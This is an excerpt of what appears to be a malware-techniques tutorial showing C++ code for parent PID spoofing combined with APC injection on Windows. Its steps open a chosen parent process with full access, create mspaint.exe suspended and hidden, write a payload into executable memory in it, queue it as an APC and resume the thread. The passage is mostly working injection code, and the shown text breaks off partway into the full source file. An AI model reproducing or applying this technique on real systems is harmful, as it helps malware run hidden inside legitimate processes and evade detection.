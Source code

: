```cpp
int pid = findMyProc(argv[1]);
if (pid) {
  printf("PID = %d\n", pid);
}

HANDLE ph = OpenProcess(PROCESS_ALL_ACCESS, false, (DWORD)pid);
```

Create process `mspaint.exe`:     

```cpp
CreateProcessA("C:\\Windows\\System32\\mspaint.exe", NULL, NULL, NULL, TRUE, CREATE_SUSPENDED | CREATE_NO_WINDOW | EXTENDED_STARTUPINFO_PRESENT, NULL, NULL, reinterpret_cast<LPSTARTUPINFOA>(&si), &pi);
LPVOID ba = (LPVOID)VirtualAllocEx(pi.hProcess, NULL, 0x1000, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
```

Write `meow-meow` payload to created process memory:      

```cpp
BOOL res = WriteProcessMemory(pi.hProcess, ba, (LPVOID)my_payload, sizeof(my_payload), nb);
```

Add a user-mode asynchronous procedure call (APC) object to the APC queue of the thread of the created process:     

```cpp
QueueUserAPC((PAPCFUNC)ba, pi.hThread, 0);
```

Resume thread:    

```cpp
ResumeThread(pi.hThread);
CloseHandle(pi.hThread);
```

So, the full source code of this trick is:     

```cpp
/*
hack.cpp
parent PID spoofing with APC
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/06/malware-tricks-23.html
*/
#include <windows.h>
#include <tlhelp32.h>
#include <iostream>

int findMyProc(const char *procname) {

  HANDLE hSnapshot;
  PROCESSENTRY32 pe;
  int pid = 0;
  BOOL hResult;

  // snapshot of all processes in the system
  hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  if (INVALID_HANDLE_VALUE == hSnapshot) return 0;

  // initializing size: needed for using Process32First
  pe.dwSize = sizeof(PROCESSENTRY32);

  // info about first process encountered in a system snapshot
  hResult = Process32First(hSnapshot, &pe);

  // retrieve information about the processes
```